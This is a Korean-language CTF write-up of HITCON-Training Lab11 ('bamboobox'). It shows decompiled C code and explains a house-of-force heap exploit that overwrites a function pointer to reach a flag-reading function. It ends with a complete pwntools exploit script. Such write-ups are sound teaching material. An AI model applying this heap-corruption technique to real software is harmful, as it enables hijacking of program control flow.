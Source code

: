```yaml
---
title: "[HITCON-Training]Lab11"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


checksec은 그냥 pie빼고 다 걸려있다.

```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

magic함수가 있는데 이거 호출해주면 될거같다.

```c
void __noreturn magic()
{
  int fd; // ST0C_4
  char buf; // [rsp+10h] [rbp-70h]
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fd = open("/home/bamboobox/flag", 0);
  read(fd, &buf, 0x64uLL);
  close(fd);
  printf("%s", &buf);
  exit(0);
}
```

main 함수를 보면 *v3에 `hello_message` *v3[1]에 `goodbye_message` 각각 힙 영역에 저장해둔다. 

처음에 `hello_message` 를 실행해준다. 근데 case 5 보면  `(v3[1])(&buf, &buf);` 이런게 있는데 여기서 함수 포인터를 magic으로 바꿔서 실행해주면 될거다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // [rsp+8h] [rbp-18h]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = malloc(16uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  (*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        (v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

house of force 문제다. 익스 시나리오는 아래와 같다.

1. add로 할당

32만큼 할당해줬다.

![](https://user-images.githubusercontent.com/32904385/72174400-058c5400-341d-11ea-8955-d64477b008df.png)

2. top chunk 덮음

edit에서 heap overflow나서 top chunk header랑 size부분 덮어준다. 

![](https://user-images.githubusercontent.com/32904385/72174402-0624ea80-341d-11ea-95a9-35d8a90aa9be.png)

3. add로 main_arena.top 변경

malloc(-88)

![](https://user-images.githubusercontent.com/32904385/72174403-06bd8100-341d-11ea-8a9c-8dbf47979d00.png)

4. add로 `goodbye_message` 함수 포인터 `magic` 으로 덮음

5. 5번 메뉴 호출하면 `(v3[1])(&buf, &buf);` 은 `magic` 함수를 가르키고 있어서 magic함수 호출

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./bamboobox')
p = process('./bamboobox')
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x,y: p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
magic = e.symbols['magic']

def show():
	sla(':','1')

def add(length,name):
	sla(':','2')
	sla(':',str(length))
	sa(':',name)

def edit(index,length,name):
	sla(':','3')
	sla(':',str(index))
	sla(':',str(length))
	sa(':',name)

def remove(index):
	sla(':','4')
	sla(':',str(index))

add(32,'AAAA')
edit(0,48,'B'*40 + p64(0xffffffffffffffff)) # top chunk dup
#raw_input()
add(-88,'BBBB')
add(16, p64(magic)*2)
#raw_input()
sla(':','5')

p.interactive()
```

